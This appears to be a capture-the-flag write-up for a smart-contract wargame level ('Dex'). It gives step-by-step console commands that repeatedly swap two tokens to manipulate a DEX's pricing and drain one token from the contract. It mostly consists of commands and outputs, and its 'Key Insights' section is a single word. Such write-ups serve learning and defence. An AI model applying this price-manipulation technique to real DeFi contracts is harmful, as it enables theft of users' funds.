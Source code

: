 # Level 22: Dex

### Wargame
The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.
You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.
You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

### Key Insights
* price

### Attack Steps
1. Contract Instance Address:
    ```bash
    instance
    '0x0300312e10c967F0eD21e9557BDac0838c928137'
    ```

2. Fetch the token addresses:
    ```bash
    token1 = await contract.token1()
    '0xdd95A13Bd5c771fAC9cD99b0617879eE7ceB56F5'

    token2 = await contract.token2()
    '0xBDdEF6272D6a8c23D57Ea6bd0e08F7760e1a079a'
    ```

3. Check DEX’s token balances:
    ```bash
    balance1 = await contract.balanceOf(token1, instance)
    balance2 = await contract.balanceOf(token2, instance)
    ```

4. Authorize the DEX contract to spend your tokens:
    ```bash
    contract.approve(instance,10000)
    ```

5. Alternately swap token1 and token2 to manipulate the internal DEX pricing:
    ```bash
    > myBalance1 = await contract.balanceOf(token1, player)
    > myBalance2 = await contract.balanceOf(token2, player)
    > contract.swap(token1, token2, myBalance1)

    > myBalance2 = await contract.balanceOf(token2, player)
    > contract.swap(token2, token1, myBalance2)

    > myBalance1 = await contract.balanceOf(token1, player)
    > contract.swap(token1, token2, myBalance1)

    > myBalance2 = await contract.balanceOf(token2, player)
    > contract.swap(token2, token1, myBalance2)

    > myBalance1 = await contract.balanceOf(token1, player)
    > contract.swap(token1, token2, myBalance1)
    ```

6. Final Swap Calculation
    ```bash
    > balance1 = await contract.balanceOf(token1, instance)
    110

    > await contract.getSwapPrice(token2, token1, 100)
    244

    > await contract.getSwapPrice(token2, token1, 45)
    110

    > contract.swap(token2, token1, 45)
    ```

7. Verify DEX's token1 balance is zero:
    ```bash
    > balance1 = await contract.balanceOf(token1, instance)
    0
    ```
